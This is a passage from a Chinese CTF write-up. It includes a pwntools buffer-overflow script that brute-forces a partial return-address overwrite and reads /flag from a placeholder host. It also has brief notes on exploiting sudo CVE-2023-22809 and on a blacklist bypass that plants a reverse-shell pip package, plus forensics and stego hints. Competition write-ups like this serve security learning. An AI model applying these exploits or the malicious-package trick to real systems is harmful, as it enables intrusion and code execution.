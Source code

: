 这里直接跳到win

```python
from pwn import *

for _ in range(64):
    p=remote("xx", xxxx)
    p.send(b'a' * (0x418+4) + b'\xbd\x0eqy')
    try:
        p.sendline(b'echo pwned!\ncat /flag\n' * 10)
        p.recvuntil(b'pwned!\n')
        p.interactive()
    except:
        p.close()
```

## Misc
### 58与64 (未解出)
连起来，全部字符都在58的表里，与64猜测是and操作？没做出来  

### happy2forensics （未解出）
提示里TCP 20->80可以摸到BitLocker的恢复密钥   

导出secret.rar，解压出来的文件是一个加密的vhd，挂载后用恢复密钥解密  
删除的文件里有加密的压缩包  
根目录下的图片拼出来没东西，一个5MB的图片实际是另一个镜像，FTK挂载后继续拼可以摸到压缩包的密码
解压是flag的后半部分（前半部分呢，不会了）  

### sudo
CVE-2023-22809，没有vim改nano读flag

### 盲人隐藏了起来
34是从12里剪的，去掉两个ee直接粘进12里就能看视频看到密码  
解压出的图片末尾有key，是wbs的？ zsteg -a一把直接出了，不用密码  

### piphack
空格就可以绕过黑名单限制  
pip的目标可以直接给压缩包的url，不用上传到源   
然后随便写一个反弹shell或者打webhook的包（怎么回显啊，不会，反弹好了）就可以了  

### wordle
签到题，（玩）  

## Crypyo
### ecdsa (未解出)
k高位重复 蹲题解

### Cisticola (未解出)
